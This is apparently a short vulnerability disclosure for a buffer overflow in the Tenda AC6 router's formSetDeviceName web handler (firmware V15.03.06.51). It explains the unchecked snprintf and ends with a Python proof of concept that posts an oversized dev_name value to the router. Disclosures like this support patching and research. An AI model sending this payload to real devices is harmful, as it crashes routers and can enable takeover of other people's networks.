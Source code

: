 # buffer overflow

## Tenda_AC6

version: V15.03.06.51

## Description:

There is a buffer overflow in httpd/formSetDeviceName

## Source:

you may download it from : https://www.tendacn.com/download/detail-3794.html

## Analyse:


![](2.png)

get value from devName ,send to set_device_name

![](3.png)

and dont send the mac ,we can get into else

finally call snprint ,dont check the length ,cause buff overflow



## POC
```
url = "http://192.168.1.13/goform/formSetDeviceName"
payload = 'A'*0x1000 + '\n'

r = requests.post(url, data={'dev_name': payload})
``` 
